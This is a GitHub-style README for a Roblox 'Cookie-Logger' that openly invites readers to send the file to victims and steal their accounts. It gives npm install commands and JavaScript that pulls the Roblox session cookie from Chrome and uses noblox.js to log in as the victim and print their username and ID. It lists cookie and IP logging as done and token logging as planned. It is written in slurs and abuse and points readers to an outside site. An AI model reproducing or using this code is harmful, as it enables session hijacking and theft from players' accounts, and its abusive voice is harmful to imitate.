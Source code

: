 #updates
```Nim
1. [Added] Cookie Logging
2. [Added] Ip Logging
3. [coming soon] Might add the Auto Trade Via cookie method later on if i am not lazy
4. [coming soon] finish up the api
5. [coming soon] fuck ur mom obv
6. [coming soon] token logging for the weebs
```

# Cookie-Logger
I was bored and made this

sigh just a shitty cookie logger when i am done with exams and shit i'll make my own cookie logging api so u skids can send the file to victims and yoink their shit if u want this faster u can just go to https://skadaddle.cc/ might release it on there with a lot more features like token logging and etc

![](image.png)


# STEPS FOR SKIDS

Install these first
```js
npm i github:ClockworkSquirrel/rbxcookie
```
```
npm i github:ClockworkSquirrel/rbxcookie --no-optional
```
```
npm i noblox.js -g
```

# How the check if it works

a simple fucking way to check this shitty ass logger is by

```js
const rbxcookie = require("rbxcookie")
const ChromeCookie = new rbxcookie.Chrome()

async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    console.log(cookie)
}
skidcity()
```

Here is a more detailed explanation of validating the cookie u fucking dumbass roblox.js bs is automated so its easy af u stupid piece of shit

```js
const rbxcookie = require("rbxcookie")
const ChromeCookie = new rbxcookie.Chrome()
const cbx = require("noblox.js")


async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    await cbx.setCookie(cookie)
    let user = (await cbx.getCurrentUser()).UserName
    let id = (await cbx.getCurrentUser()).UserID
    console.log(`Information on the person you logged\n User: ${user} - ID [${id}]`)
}
skidcity()
```

if u wanna say some fucking shit cuz u don't know how to run this shitty logger that won't even function right if u compile it just join our server from the website
# https://skadaddle.cc/
